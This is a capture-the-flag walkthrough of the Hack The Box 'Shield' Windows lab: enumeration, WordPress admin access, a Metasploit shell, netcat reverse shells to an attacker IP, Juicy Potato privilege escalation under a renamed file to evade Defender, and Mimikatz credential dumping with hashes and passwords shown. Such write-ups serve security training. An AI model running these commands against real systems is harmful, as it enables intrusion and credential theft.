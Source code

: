 # Starting Point - Shield

## Enumeration

```
PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   syn-ack MySQL (unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Examining Port 80 - Windows Server Internet Information Service (IIS)

![](pics/webserver.png)

Navigating to Port 80, we can see the default IIS starting page (which is typical for Windows Server hosted websites). So we probably have to find the real application/directories by ourselves.

Therefore, we gonna use a tool like `gobuster`:
```
gobuster dir -u "http://10.10.10.29" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It relatively quickly finds a directory called `/wordpress`. Let's head over to this.

![](pics/wordpress.png)

The wordpress website is apparently a company's website that deals with electric trucks. It has two big buttons, which both have no functionality. Furthermore, it has an additional tab called `BLOG`, which leads us to their blog (also implemented with wordpress).

![](pics/blog.png)

On the blog-website, we also have the possibility to Login, which leads us to following website:

![](pics/wp_login.png)

I tried bruteforcing the login with username `admin`, as Wordpress has the bad behaviour of leaking usernames. It basically gives you a different error message, if you guessed the username correctly.

![](pics/error1.png)

![](pics/error2.png)

Unfortunately, I had no success in doing so. After a few hours of research, I took a look at the official writeup of the room... In the writeup they state: `Since we have already acquired the password P@s5w0rd!, we can try to login to the WordPress site.`..Wait. Where and how did we acquire that exactly? That's what I asked in the official Discord server. Their answer was pretty much like "That's the password of the DB user in the previous machine! It's obvious that you should test that password for the Wordpress admin in this machine" .... riiiiiiight.

Anyway...

## Exploitation
Now that we are logged in with the **obvious** credentials `admin:P@s5w0rd!`, and have full access to the Wordpress admin dashboard, we can setup a reverse shell to the server. We gonna use `metasploit` for that, as windows systems are always a bit tricky.

So we open `msfconsole` and search for a suiteable module.

![](pics/metasploit_search.png)

We type `use 0` to select this module. Afterwards we type `show options` to see all the options we can and must set.

![](pics/metasploit_options.png)

After configuring it for our machine like that:

![](pics/metasploit_filled_options.png)

we can start the exploit.

![](pics/metasploit_run.png)

By typing `sysinfo` we get some information about the system:

```
meterpreter > sysinfo
Computer    : SHIELD
OS          : Windows NT SHIELD 10.0 build 14393 (Windows Server 2016) i586
Meterpreter : php/windows
```

We see that this is a rather old Windows Server version. Let's see if it has any know vulnerabilities regarding privilege escalation.

And indeed! It's called `Rotten Potato` ([Github](https://github.com/foxglovesec/RottenPotato), [Youtube](https://www.youtube.com/watch?v=8Wjs__mWOKI)). For our case, we will use a slight modification of that exploit called `Juicy Potato` ([Github]( https://github.com/ohpe/juicy-potato/)).

### Upload Netcat

Download `nc.exe` from [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Afterwards, change the directory in your meterpreter session to 
```
C:/inetpub/wwwroot/wordpress/wp-content/uploads
```
Then upload the `nc.exe` file. To execute it use following command:

```
msf > execute -f nc.exe -a "-e cmd.exe 10.10.14.125 1234"
```

This only works ofc, if you have a nc listerner running.

### Prepare the Juicy Potato Exploit

We can create a batch file that will be executed by the exploit and return a SYSTEM shell. Let's add the following contents to `shell.bat` (run it from the nc reverse shell).

```
echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.125 1111 > shell.bat
```

Now start another nc listener on your local machine with the port specified in `shell.bat`.

Afterwards, we upload the Juicy Pototo exe with an uncommon name (I chose jp.exe), so that the windows defender won't detect it.

The final step is to execute the Juicy Potato exe with the previously generated `shell.bat` file like so:

```
jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
```

![](pics/system_shell.png)

The root.txt is located in C:\Users\Administrator\Desktop: `6e9a9fdc6f64e410a68b847bb4b404fa`

## Post Exploitation

[Mimikatz](https://github.com/sebastiendamaye/hackthebox/raw/master/01-starting_point/04-Shield/files/mimikatz.exe) can be used to find additional cached passwords on the machine. This might be useful for the next challenge. 

So we upload the exe from the meterpreter session and execute it:

```
meterpreter > upload mimikatz.exe
```

Then do following in the System shell:

```
$ .\mimikatz.exe

$ mimikatz> sekurlsa::logonpasswords

...

Authentication Id : 0 ; 216075 (00000000:00034c0b)                                       
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 1/4/2021 11:12:16 AM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105                       
        msv :                               
         [00000003] Primary
         * Username : sandra
         * Domain   : MEGACORP
         * NTLM     : 29ab86c5c4d2aab957763e5c1720486d                                   
         * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38                           
         * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc                                   
        tspkg :                             
        wdigest :                           
         * Username : sandra
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :                          
         * Username : sandra                <-- USERNAME
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!         <-- PASSWORD
        ssp :                               
        credman : 
        
...
```

The found credentials are `sandra:Password1234!`.
